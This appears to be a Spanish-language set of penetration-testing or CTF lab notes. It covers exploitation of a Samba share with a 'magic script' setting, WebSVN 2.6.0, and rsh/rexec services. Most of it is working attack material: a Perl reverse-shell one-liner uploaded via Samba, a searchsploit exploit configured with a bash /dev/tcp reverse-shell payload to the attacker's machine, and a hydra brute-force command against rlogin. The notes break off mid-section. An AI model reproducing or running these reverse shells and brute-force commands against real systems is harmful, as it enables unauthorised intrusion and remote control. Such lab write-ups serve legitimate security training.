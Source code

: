 [tmp]
   comment = Temp Directory
   browseable = yes
   valid users = xerosec
   read only = no
   magic script = config.sh
   create mask = 0700
   directory mask = 0700
   path = /tmp/

  magic script = config.sh esto es una vulnerabilidad crítica, podemos subir un archivo con config.sh con una reverse shell

nano config.sh

perl -e 'use Socket;$i="IP-KALI";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

lo subimos al samba y luego nos ponemos en escucha por el puerto 443

-------------------------------------------------------------------------------

8.- websvn

websvn 2.6.0

Buscamos en searchsploit:

searchsploit websvn 2.6.0

descargamos de searchsploit

searchsploit -m php/webapps/50042.py

configuramos el PAYLOAD de 50042.py:

PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/IP-KALI/443 0>&1'"

nos ponemos en escucha con netcat en el puerto 443

-------------------------------------------------------------------------------

9.- netkit-rsh rexecd

protocolo antiguo para conexión remota, tipo ssh pero inseguro

512/tcp open  exec
513/tcp open  login
514/tcp open  shell

podemos aplicar hydra para fuerza bruta

hydra -l lisa -P /usr/share/wordlists/rockyou.txt rlogin://192.168.42.156 -t 64 -I

instalamos rsh-client ya que es un protocolo antiguo

sudo apt install rsh-client

forma de conexión 
